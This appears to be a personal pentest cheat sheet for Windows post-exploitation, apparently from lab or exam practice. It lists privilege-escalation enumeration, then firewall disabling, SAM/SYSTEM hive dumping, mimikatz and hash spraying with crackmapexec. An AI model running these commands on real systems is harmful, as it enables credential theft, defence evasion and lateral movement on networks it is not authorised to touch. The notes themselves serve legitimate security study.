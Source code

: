 # Local Postex
### Goal - get privesc

`whoami`

`whoami /priv` - Windows version of `sudo -l` - hoping for Impersonate

`whoami /groups`

`net localgroup administrators`

`whoami /all`

`ipconfig /all`

`hostname`

`systeminfo`

`netstat -ano`

`netsh advfirewall firewall show ruel name=all`

`schtasks /query /fo LIST /v`

`wmic product get name, version, vendor`

`wmic qfe get Caption, Descriptino, HotFixID, InstalledOn`

`wmic service where caption="<service name>" get name, caption, state, startmode`

Unquoted service paths:
`wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`

`mountvol`

`icacls <\path\to\app.exe>`

`reg query HKEY\LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`


# Root Postex
### Goal - get creds/loot and see if you can pivot anywhere
- Check C:\ directory (`dir /AH`)
- Check user directories
- Screenshot of `whoami`, `ipconfig` and `type proof.txt` if applicable
- Recheck ~/.ssh and /etc/ssh

`netstat -anbo`

`netsh advfirewall set allprofiles state off` -> turn the firewall off

`reg save hklm/system system`
`reg save hklm/sam sam`
*save/transfer both of those files for cracking later*

`dir "<search  term>*" /s` - search for credentials

- Run mimikatz

- If you found any hashes/passwords, spray them at the rest of the domain:

`crackmapexec smb 10.11.1.0/24 -u eve -H 'a87f3a337d73085c45f9416be5787d86'`


